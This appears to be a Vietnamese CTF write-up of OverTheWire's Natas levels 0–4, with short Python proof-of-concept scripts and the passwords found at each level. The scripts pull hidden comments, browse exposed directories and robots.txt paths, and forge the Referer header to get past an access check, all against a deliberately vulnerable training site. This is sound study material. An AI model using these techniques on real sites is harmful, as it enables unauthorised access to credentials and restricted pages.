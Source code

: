 ```yaml
---
layout: post
title: Wargames Websec - Natas
subtitle: Web Security - CTF
tags: [wargame, ctf]
image: /img/wargame_natas.png
share-img: /img/wargame_natas.png
---
```


Wargame [Natas](https://overthewire.org/wargames/natas/) là hình thức chơi leo theo từng level được tạo nên bởi [OverTheWire](https://overthewire.org/wargames/) community. Wargame này dành cho những người muốn tìm hiểu những điều cơ bản nhất về web-security phía server. Chúng ta có thể thấy các lỗi phổ biến nhất trong wargame này.

Với mỗi cấp độ ta sẽ truy cập và lấy được pwd của level tiếp theo. Công việc của chúng ta somehow lấy được pwd đó và nhảy level. Tất cả pwd đều được lưu trữ ở **/etc/natas_webpass/** hãy để ý điều này. Ví dụ, pwd của **natas5** được lưu trữ trong **/etc/natas_webpass/natas5** và chỉ có **natas4** và **natas5** mới truy cập và đọc được.

Với mỗi level giải mình sẽ cung cấp thêm POC để solve vấn đề nhanh hơn.

> Let's focus on the quiz !


![Alt Text](https://media.giphy.com/media/WiM5K1e9MtEic/giphy.gif)



***
# Natas Level 0 Solution
***
**URL:** [http://natas0.natas.labs.overthewire.org](http://natas0.natas.labs.overthewire.org) <br/>
**Datum:** natas0-natas0

Này thì đơn giản sau khi nhập user, pwd thì chỉ cần kiểm tra view-source bằng cách nhấn chuột phải `View page source`, ta sẽ nhận được pwd:

```bash
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
 ```

hoặc có thể check bằng Python <br/>

**POC:**
```python
import requests
import re

user = 'natas0'
pwd = user

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('<!--The password for natas1 is (.*) -->', content))
```



***
# Natas Level 1 Solution
***
**URL:** [http://natas1.natas.labs.overthewire.org](http://natas1.natas.labs.overthewire.org) <br/>
**Datum:** natas1-gtVrDuiDfck831PqWsLEZy5gyDz1clto

Ở level này thì khi nhấp chuột phải đã blocked thì mình thử dùng phím tắt `Ctrl + U`, ta sẽ nhận được pwd:

```bash
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

**POC:**
```python
import requests
import re

user = 'natas1'
pwd = 'gtVrDuiDfck831PqWsLEZy5gyDz1clto'

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

print(content)
#print(re.findall('<!--The password for natas2 is (.*) -->', content))
```



***
# Natas Level 2 Solution
***
**URL:** [http://natas2.natas.labs.overthewire.org](http://natas2.natas.labs.overthewire.org) <br/>
**Datum:** natas2-ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

Nếu bạn kiểm tra source, sẽ thấy đường link thẻ img:

```bash
<img src="files/pixel.png">
```
Lúc này, chỉ cần xóa tên tệp và truy cập vào [http://natas2.natas.labs.overthewire.org/files/](http://natas2.natas.labs.overthewire.org/files/) để lấy nội dung thư mục. Ta sẽ tìm thấy pwd ở trong file `users.txt`:

```bash
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

**POC:**
```python
import requests
import re

user = 'natas2'
pwd = 'ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi'

url = 'http://%s.natas.labs.overthewire.org/files/users.txt' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('natas3:(.*)', content))
```



***
# Natas Level 3 Solution
***
**URL:** [http://natas3.natas.labs.overthewire.org](http://natas3.natas.labs.overthewire.org) <br/>
**Datum:** natas3-sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Về level này, ta nên biết 1 tí concept về [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro) đơn giản là một tệp ở gốc trang web của bạn cho biết những phần thuộc trang web bạn không muốn cấp quyền truy cập cho trình thu thập dữ liệu của công cụ tìm kiếm.

Vì thế ta thử check file *robots.txt* trên trang web ([http://natas3.natas.labs.overthewire.org/robots.txt](http://natas3.natas.labs.overthewire.org/robots.txt)), ta sẽ thấy được folder chứa pwd: 

```bash
User-agent: *
Disallow: /s3cr3t/
```

Duyệt folder trên url, và check file **users.txt**:

```bash
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

**POC:**
```python
import requests
import re

user = 'natas3'
pwd = 'sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14'

url = 'http://%s.natas.labs.overthewire.org/s3cr3t/users.txt' % user
reponse = requests.get(url,auth = (user,pwd))
content = reponse.text

#print(content)
print(re.findall('natas4:(.*)', content))
```



***
# Natas Level 4 Solution
***
**URL:** [http://natas4.natas.labs.overthewire.org](http://natas4.natas.labs.overthewire.org) <br/>
**Datum:** natas4-Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Khi ta cố gắng đăng nhập, thì chỉ nhận lại message không được cho phép:

```bash
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

Về cách giải quyết, bạn có thể thay đổi *Referer* bằng đoạn Python đơn giản:

**POC:**

```python
import requests
import re

user = 'natas4'
pwd = 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ'

headers = {'Referer' : 'http://natas5.natas.labs.overthewire.org/'}

url = 'http://%s.natas.labs.overthewire.org/' % user
reponse = requests.get(url,auth = (user,pwd), headers = headers)
content = reponse.text

#print(content)
print(re.findall('The password for natas5 is (.*)', content))
```

*Or this way*

```python
import requests

url = 'http://natas4.natas.labs.overthewire.org/'
referer = 'http://natas5.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas4','Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ')
s.headers.update({'Referer' : referer})
r = s.get(url)

print(r.text)
```

Lấy pwd và leo tiếp thôi:

```text
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```



***
# Natas Level 5 Solution
***
**URL:** [http://natas5.natas.labs.overthewire.org](http://natas5.natas.labs.overthewire.org) <br/>
**Datum:** natas5-iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq